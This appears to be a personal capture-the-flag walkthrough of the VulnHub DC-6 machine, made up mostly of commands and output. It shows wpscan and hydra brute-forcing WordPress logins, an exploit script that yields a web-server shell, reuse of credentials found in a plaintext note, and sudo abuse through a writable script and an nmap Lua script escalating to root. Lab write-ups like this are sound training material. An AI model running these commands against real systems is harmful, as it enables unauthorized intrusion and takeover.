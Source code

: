 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 22/december/2022

# DC-6

----------------------------------------------------------------
# nmap scan ()
----------------------------------------------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))


wordlist for wp login
from wordpress admin:test login try we know there is user called admin
lets bruteforce it
hint from the vulnhub
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt

bruteforce password attack
wpscan --url wordy --password-attack xmlrpc --passwords passwords.txt 

[SUCCESS] - mark / helpdesk01 

hydra command
 hydra -L users.txt -P passwords.txt 10.0.2.18 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30



reverse shell

python3 50110.py         
What's your target IP?
10.0.2.18
What's your username?                                                                                               
mark                                                                                                                
What's your password?                                                                                               
helpdesk01                                                                                                          
[*] Please wait...                                                                                                  
[*] Perfect!                                                                                                        
www-data@10.0.2.18  id                                                                                              
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                               
www-data@10.0.2.18                                                                                                  
Got a shell**
--
--
--
--
www-data@dc-6:/home$ cat /home/mark/stuff/things-to-do.txt
cat /home/mark/stuff/things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```
----------------------------------------------------------------
ssh login 
----------------------------------------------------------------
```
graham:GSo7isUM1D4
-> sudo -l
(jens) NOPASSWD: /home/jens/backups.sh
modify the /home/jens/backups.sh to get bash shell
/bin/bash
sudo -u jens /home/jens/backups.sh

now we are jens
sudo -l
we got nmap 
(root) NOPASSWD: /usr/bin/nmap
search gtfo bins

TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF

python -c 'import pty;pty.spawn("/bin/bash")'
congrats you got root
```
----------------------------------------------------------------
# flag
----------------------------------------------------------------
```
-> cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
